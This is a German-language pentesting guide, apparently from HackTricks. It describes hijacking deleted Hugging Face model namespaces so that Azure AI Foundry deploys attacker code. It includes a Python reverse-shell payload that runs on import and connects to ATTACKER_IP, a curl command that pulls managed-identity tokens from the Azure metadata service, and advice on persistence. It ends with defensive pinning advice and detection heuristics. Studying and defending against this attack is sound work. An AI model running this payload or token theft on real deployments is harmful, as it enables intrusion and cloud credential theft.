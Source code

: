 # Azure - AI Foundry Post-Exploitation durch Wiederverwendung von Hugging Face Model-Namespaces

{{#include ../../../banners/hacktricks-training.md}}

## Szenario

- Der Azure AI Foundry Model Catalog enthält viele Hugging Face (HF)-Modelle zur Bereitstellung per Ein-Klick.
- HF-Modellkennungen sind Author/ModelName. Wenn ein HF-Author/Org gelöscht wird, kann jeder diesen Author neu registrieren und ein Modell mit demselben ModelName unter dem Legacy-Pfad veröffentlichen.
- Pipelines und Kataloge, die nur nach Name ziehen (kein commit pinning/integrity), werden auf vom Angreifer kontrollierte Repos aufgelöst. Wenn Azure das Modell deployt, kann Loader-Code in der Endpoint-Umgebung ausgeführt werden und RCE mit den Rechten dieses Endpoints ermöglichen.

Häufige HF-Takeover-Fälle:
- Löschung des Eigentümers: Alter Pfad 404 bis zur Übernahme.
- Übertragung der Eigentümerschaft: Alter Pfad leitet mit 307 zum neuen Author, solange der alte Author existiert. Wenn der alte Author später gelöscht und neu registriert wird, bricht die Weiterleitung und das Repo des Angreifers wird am Legacy-Pfad ausgeliefert.

## Identifizierung wiederverwendbarer Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-to-End-Angriffsablauf gegen Azure AI Foundry

1) Im Model Catalog HF-Modelle finden, deren ursprüngliche Autoren auf HF gelöscht oder übertragen wurden (alter Autor entfernt).
2) Den verlassenen Autor auf HF neu registrieren und den ModelName wiederherstellen.
3) Ein bösartiges repo veröffentlichen mit loader code, der beim import ausgeführt wird oder trust_remote_code=True erfordert.
4) Den Legacy-Author/ModelName aus Azure AI Foundry deployen. Die Plattform zieht das attacker repo; der loader wird im Azure endpoint-Container/VM ausgeführt und führt zu RCE mit endpoint permissions.

Beispiel payload-Fragment, das beim import ausgeführt wird (nur zur Demonstration):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Hinweise
- AI Foundry-Deployments, die HF integrieren, klonen typischerweise Repo-Module, auf die in der Model-Konfiguration verwiesen wird (z. B. auto_map), was code execution auslösen kann. Manche Pfade erfordern trust_remote_code=True.
- Der Zugriff entspricht normalerweise den managed identity/service principal permissions des Endpoints. Betrachte ihn als initial access foothold für data access und lateral movement innerhalb von Azure.

## Post-Exploitation Tipps (Azure Endpoint)

- Enumeriere Umgebungsvariablen und MSI endpoints nach Tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Überprüfen Sie gemounteten Speicher, Modellartefakte und erreichbare Azure-Dienste mit dem erhaltenen Token.
- Erwägen Sie persistence, indem Sie poisoned model artifacts hinterlassen, falls die Plattform erneut von HF abruft.

## Verteidigungsempfehlungen für Azure AI Foundry-Nutzer

- Modelle beim Laden aus HF anhand des Commits pinnen:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Spiegle geprüfte HF models in ein vertrauenswürdiges internes Registry und stelle sie von dort bereit.
- Scanne kontinuierlich Codebasen und defaults/docstrings/notebooks nach hartkodierten Author/ModelName, die gelöscht/übertragen wurden; aktualisiere oder pinne.
- Überprüfe die Existenz des author und die Modellprovenienz vor der Bereitstellung.

## Erkennungsheuristiken (HTTP)

- Gelöschter author: author page 404; legacy model path 404 bis zur Übernahme.
- Übertragenes Modell: legacy path 307 zum neuen author, während der alte author noch existiert; wird der alte author später gelöscht und neu registriert, liefert der legacy path Angreifer-Inhalte.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Querverweise

- Siehe ausführlichere Methodik- und Supply-Chain-Hinweise:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Quellen

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
